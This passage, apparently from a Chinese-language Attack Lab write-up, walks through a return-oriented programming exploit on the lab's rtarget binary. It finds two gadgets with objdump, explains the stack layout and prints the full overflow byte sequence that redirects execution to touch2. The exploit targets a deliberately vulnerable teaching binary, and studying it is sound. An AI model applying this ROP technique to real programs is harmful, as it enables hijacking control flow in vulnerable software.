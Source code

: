 就能实现参数的赋值了，当`ret`后，从栈中取出来的程序地址再设置为`touch2`的地址就能成功解决本题

但是后来发现在`farm`中找不到这条指令的`gadget`，经过多次尝试，只好用其他寄存器进行中转，考虑用两个`gadget`

```assembly
popq %rax
ret
###############
movq %rax, %rdi
ret
```

### 栈帧讲解

根据我们的思路，栈帧情况如下：

![image-20220305153502546](https://cdn.jsdelivr.net/gh/Deconx/ImgHosting/Deconx-pic/image-20220305153502546.png)

逻辑如下：

- `getbuf`执行`ret`，从栈中弹出返回地址，跳转到我们的`gardget01`
- `gadget01`执行，将`cookie`弹出，赋值给`%rax`，然后执行`ret`，继续弹出返回地址，跳转到`gardget2`
- `gardget2`执行，将`cookie`值成功赋值给参数寄存器`%rdi`，然后执行`ret`，继续弹出返回地址，跳转到`touch2`

### Solution

首要问题是找到我们需要的`gadget`

先用如下指令得到`target`的汇编代码及字节级表示

```assembly
objdump -d rtarget > rtarget.s
```

查表知，`pop %rax`用`58`表示，于是查找`58`

```assembly
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq                   retq
```

得到指令地址为`0x4019ab`

`movq %rax, %rdi`表示为`48 89 c7`，刚好能找到！其中 90 表示“空”，可以忽略

```assembly
00000000004019c3 <setval_426>:
  4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:       c3                      retq
```

得到指令地址为`0x4019c5`

根据上图的栈帧，就能写出我们的输入序列：

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
